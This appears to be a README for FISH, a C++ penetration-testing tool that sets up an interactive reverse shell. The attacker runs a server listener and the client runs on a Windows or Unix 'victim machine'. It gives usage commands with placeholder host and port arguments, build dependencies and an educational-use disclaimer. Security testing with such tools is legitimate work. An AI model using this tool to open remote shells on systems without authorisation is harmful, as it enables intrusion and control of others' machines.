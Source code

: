 # FISH - Fully Interactive SHell
Get a fully-ish interactive reverse shell when performing penetration tests. I got sick of using dumb reverse shells and hitting `ctrl+c`, especially on a windows vicitim machine.

## Usage
In the attacker machine, launch the server executable with a specified host and port to listen for incoming requests.
```shell
$ server <bind_address> <bind_port>
```

In the victim machine, launch the client executable (both unix and windows version are available). 
```shell
$ client <server_address> <server_port>
```

## Build
This tool should be compiled on a unix machine and it is dependant on the following packages.
Just run `make` after installing the dependencies.

### Dependencies
* C++ Compiler : `g++`
* C++ Cross Compiler (Win32) : `g++-mingw-w64-i686-win32`
* C++ Cross Compiler (i386) : `g++-multilib`
* Make build tools : `make`
* [Winpty](https://github.com/rprichard/winpty) and [Mongoose](https://github.com/cesanta/mongoose) (included in this repo)

## Known issues
* Windows child pty does not have the same privileges in some cases
* Windows 10 does not support Crtl+C on child processes (Maybe use conpty as an alternative)

## To be done
* Install Winpty and Mongoose as a dependencies (From Git from example)

# Disclaimer
It goes without saying that this tool is intended to be used for educational and/or ethical purposes. 
